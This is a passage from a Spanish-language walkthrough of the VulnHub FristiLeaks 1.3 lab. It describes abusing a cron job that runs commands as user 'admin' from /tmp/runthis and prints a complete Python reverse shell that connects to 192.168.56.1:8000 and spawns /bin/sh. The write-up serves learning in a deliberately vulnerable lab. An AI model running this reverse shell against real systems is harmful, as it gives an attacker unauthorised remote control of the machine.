 El cual contiene:

<p align="center">
  <img src="../assets/images/vulnhub-fristileaks-1-3/22.png">
</p>

Esta nota nos acaba de decir que podemos correr comandos con privilegios del usuario “admin” escribiendo estos en un archivo llamado “runthis” dentro del directorio /tmp, y estos comandos serán ejecutados cada minuto; por último, la respuesta de cada comando será notificada en un archivo llamado “cronresult” dentro de /tmp. Entonces debemos crear el archivo “runthis” en /tmp:

<p align="center">
  <img src="../assets/images/vulnhub-fristileaks-1-3/23.png">
</p>

E introducimos un reverse shell de python (o en cualquier otro lenguaje soportado por la máquina remota) en este archivo, y esperamos un minuto:

```python
/usr/bin/python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",8000));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

<p align="center">
  <img src="../assets/images/vulnhub-fristileaks-1-3/24.png">
</p>

